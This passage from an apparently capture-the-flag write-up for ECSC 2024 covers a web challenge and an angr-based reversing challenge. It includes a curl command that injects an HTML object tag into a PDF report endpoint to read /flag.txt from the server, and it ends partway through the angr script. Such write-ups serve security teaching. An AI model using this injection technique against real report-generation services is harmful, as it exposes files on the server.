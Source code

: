3. On the admin endoint, you get knowledge of another endpoint, the /api/v1/generate-report endpoint. <br>
to get the flag, you have to send a POST request to the /api/v1/generate-report endpoint with the following body: <br>
```bash
curl -X POST -v -d '{"requiredBy": "<object data='/flag.txt'></object>" }' -H "Authorization: Bearer 211368ac8d75406685715751112e53ba" -H "Content-Type: application/json" "http://woauthalaundry.challs.open.ecsc2024.it/api/v1/generate-report" --output out.pdf
```

# Reversing

## anti-rev
Good luck finding the secret word for my super secure program! <br>


### Solution
This is a perfect challenge to showcase a simple angr usecase. <br>
You tell angr to explore the binary until it reaches the success stdout output while avoiding the failure stdout output. <br>

```python
import angr
import claripy
import sys

flag_length = 31

def is_successful(state):
    #Successful print
    stdout_output = state.posix.dumps(sys.stdout.fileno())
    if  b'Correct' in stdout_output:
        return True
    else:
        return False

def should_abort(state):
    #Avoid this print
    stdout_output = state.posix.dumps(sys.stdout.fileno())
    return b'Wrong' in stdout_output

project = angr.Project('./anti-rev')

# create a symbolic variable (BVS - Bitvector Symbolic)
flag_chars = [claripy.BVS(f'flag_{i}', 8) for i in range(flag_length)]

flag = claripy.Concat(*flag_chars + [claripy.BVV(b'\n')]) # add newline character to the end


# create a new state with the flag as input
state = project.factory.full_init_state(
    args=['./anti-rev'], 
    add_options=angr.options.unicorn, 
    stdin=flag
)

# add constraints to flag characters to be printable ascii characters
for c in flag_chars:
    state.solver.add(c >= ord('!'))
    state.solver.add(c <= ord('~'))

sim_manager = project.factory.simulation_manager(state)

```